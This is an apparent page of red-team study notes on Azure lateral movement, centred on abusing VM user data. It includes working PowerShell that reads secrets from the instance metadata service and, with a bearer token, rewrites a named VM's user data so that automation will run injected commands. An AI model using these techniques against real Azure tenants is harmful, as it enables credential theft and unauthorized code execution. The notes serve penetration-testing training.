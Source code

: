 # Lateral Movement
- Azure VM User Data
- [Azure VM Custom Script Extension](https://github.com/conma293/Azure/blob/main/2.2_LateralMovement.md#azure-vms---custom-script-extension)
- [Primary Refresh Token (PRT)](https://github.com/conma293/Azure/blob/main/2.2_LateralMovement.md#primary-refresh-token-prt)
- [InTune and Dynamic Groups](https://github.com/conma293/Azure/blob/main/2.2_LateralMovement.md#device-management---intune)
- [Application Proxy](https://github.com/conma293/Azure/blob/main/2.2_LateralMovement.md#application-proxy-1)



## Azure VMs - User Data


- Scripts or any other data that can be inserted on an Azure VM at time of provision or later.

- "Any application on the virtual machine can access the user data from the Azure Instance Metadata Service (IMDS) after provision."
- User data is:
  - Persistent across reboots
  - Can be retrieved and updated without affecting the VM
  - Not encrypted and any process on the VM can access the data!
  - Should be base64 encoded and cannot be more than 64KB

#### Azure VMs - User Data - Abuse

- Despite clear warning in the documentation, a lot of sensitive information can be found in user data.

- Examples are, PowerShell scripts for domain join operations, post-provisioning configuration and management, on-boarding agents, scripts used by infrastructure automation tools etc.
- It is also possible to modify user data with permissions "Microsoft.Compute/virtualMachines/write" on the target VM. Any automation or scheduled task reading commands from user data can be abused!
- Modification of user data shows up in VM Activity Logs but doesn't show what change was done.

- Retrieve user data:
```
$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri
"http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text"
[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```

- Modify user data:
```
$data = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("whoami"))
$accessToken = (Get-AzAccessToken).Token
$Url = "https://management.azure.com/subscriptions/b413826f-108d-4049-8c11- d52d5d388768/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/jumpvm?api-version=2021-07-01"
$body = @(
@{
location = "Germany West Central"
properties = @{
userData = "$data"
}
}
) | ConvertTo-Json -Depth 4


$headers = @{
Authorization = "Bearer $accessToken"
}
# Execute Rest API Call
$Results = Invoke-RestMethod -Method Put -Uri $Url -Body $body -Headers $headers -ContentType 'application/json'
```